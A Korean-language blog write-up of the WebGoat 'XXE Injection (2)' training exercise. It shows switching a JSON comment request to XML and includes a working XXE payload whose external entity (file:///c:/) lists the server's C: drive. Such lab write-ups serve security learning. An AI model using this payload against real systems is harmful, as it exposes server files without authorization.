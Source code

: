 ```yaml
---
layout: post
title: WebGoat - XXE Injection (2)
date: 2021-01-13 20:00:00 +0900
category: Web_Hacking
---
```


# WebGoat - XXE Injection (2)

#### 최신 REST framework를 사용하는 서버의 경우, JSON 엔드포인트는 XXE 공격에 취약할 수 있다. 이전 문제와 같은 방식으로 XXE Injection을 시도하여 시스템의 root 디렉토리에 있는 파일들의 이름 나열하기

<br/>

> XXE(XML eXternal Entity) Injection이란 XML이 외부 엔티티를 포함하고 있을 때, 이를 이용하여 기밀 데이터 유출, DoS 등을 유발하는 공격이다.

<br/>

댓글을 작성한 후 Burp Suite를 통해 보면 Content-Type이 application/json인 것을 알 수 있고, 이를 통해 body 부분이 JSON 형식으로 전송된다는 것을 알 수 있다.

![webgoat_xxe2_1](/public/img/webgoat_xxe2_1.PNG)

![webgoat_xxe2_2](/public/img/webgoat_xxe2_2.PNG)

<br/>

이전과 같은 방식으로 문제를 풀라고 했으므로, Content-Type을 applicaion/xml로 수정하고 body 부분도 이전과 동일하게 수정하여 전송해보자. 

```shell
Content-Type: application/xml

<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE comment [
  <!ELEMENT comment (#PCDATA)>
  <!ENTITY js SYSTEM "file:///c:/">
]>
<comment>
<text>&js;</text>
</comment>
```

![webgoat_xxe2_3](/public/img/webgoat_xxe2_3.PNG)

<br/>

그 결과, 현재 C드라이브에 존재하는 모든 디렉토리와 파일들이 보여진다.

![webgoat_xxe2_4](/public/img/webgoat_xxe2_4.PNG)

